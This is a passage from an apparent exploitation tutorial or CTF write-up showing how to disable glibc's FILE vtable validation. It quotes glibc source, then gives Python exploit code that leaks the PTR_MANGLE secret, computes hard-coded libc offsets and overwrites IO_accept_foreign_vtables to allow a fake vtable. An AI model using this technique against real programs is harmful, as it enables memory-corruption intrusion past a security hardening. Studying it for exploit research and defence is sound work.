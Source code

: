 ## Disabling the vtable check

Now that we have the PTR_MANGLE out of the way we just need to disable the vtable check!

Let's take a look at the function one last time:

```C
/* If equal to &_IO_vtable_check (with pointer guard protection),
   unknown vtable pointers are valid.  This function pointer is solely
   used as a flag.  */
extern void (*IO_accept_foreign_vtables) (void) attribute_hidden;

/* Assigns the passed function pointer (either NULL or
   &_IO_vtable_check) to IO_accept_foreign_vtables.  */
static inline void
IO_set_accept_foreign_vtables (void (*flag) (void))
{
#ifdef PTR_MANGLE
  PTR_MANGLE (flag);
#endif
  atomic_store_relaxed (&IO_accept_foreign_vtables, flag);
}
```
The comments state that we need to set `IO_accept_foreign_vtables` to a mangled pointer to `_IO_vtable_check`

So we need to:

1) Leak the PTR_MANGLE secret
2) Calculate offset to `IO_accept_foreign_vtables`
3) Calculate offset to `_IO_vtable_check`
4) Mangle the `_IO_vtable_check` pointer with the PTR_MANGLE secret and store it in `_IO_accept_foreign_vtables`

The following code does exactly that:

```py
#Leak the mangle secret
mangle_secret = read(libc_base-0x2890)
log.info(f"PTR_MANGLE secret: {mangle_secret:#x}")

#Calculate the offsets
IO_accept_foreign_vtables = libc_base+0x21ba28
IO_vtable_check = libc_base+0x89f70

#Mangle the pointer and store it
write(IO_accept_foreign_vtables,PTR_MANGLE(IO_vtable_check,mangle_secret))
```

## Making a fake vtable AKA Checking if it works

Now all that's left is creating a fake vtable so we can check if it works, then trigger it.

I decided to just fill the vtable with pointers to unreachable. But you can literally fill it with anything.
